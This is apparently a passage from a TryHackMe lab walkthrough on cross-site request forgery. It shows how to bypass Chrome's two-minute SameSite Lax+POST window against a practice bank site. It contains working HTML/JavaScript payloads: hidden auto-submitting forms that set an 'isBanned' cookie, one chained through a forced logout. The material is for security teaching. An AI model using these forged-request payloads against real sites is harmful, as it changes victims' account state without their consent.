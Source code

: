 ![lax plus post test buttons](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/227844a4c0b289149e7ec15d9c429547.png)  

- The email consists of two learning buttons; the first will make a POST request toÂ `index.php`Â to update theÂ `isBanned`Â cookie value.
- The first button uses the following code:

```javascript
<script>
function launchAttack(){ setTimeout(function(){bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form>
```

- Click on the button and see what happens - you will see the following error:

![isbanned cookie not found error](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/cc1ca1a6778b07e946416c785c131278.png)  

- This is because theÂ `isBanned`Â cookie was not forwarded by the browser during the request.  
    
- So, what is the solution here? We can exploit the Chrome feature that sends the cookies in each web request if modified in the lastÂ **2 minutes**. As a pentester, it is essential to understand each web request and response. TheÂ `isBanned`Â cookie value is updated in two instances, once during login and the other during logout.
- We can chain the process to make the user visit the logout link; once he is logged out and theÂ `isBanned`Â cookie is updated, we have a 2-minute window to callÂ `index.php`Â to update the isBanned cookie value.
- Here is the code that will take the user to the logout page and then make a call toÂ `index.php`Â with the updatedÂ `isBanned`Â cookie value.  
    

```javascript
<script>
function launchAttackSuccess(){
let win = window.open("http://mybank.thm:8080/logout.php",'');
setTimeout(function(){win.close();bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form> 
```

- Click on theÂ `Successful Attack`Â button, which will first log out the user, then make a POST request toÂ `index.php`, and update theÂ `isBanned`Â cookie value. Chrome will forward the cookie in the request as it is updated in less thanÂ **2 minutes**.  
    

![user banned message](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/0f234faf633173af4c657383528ebef9.png)
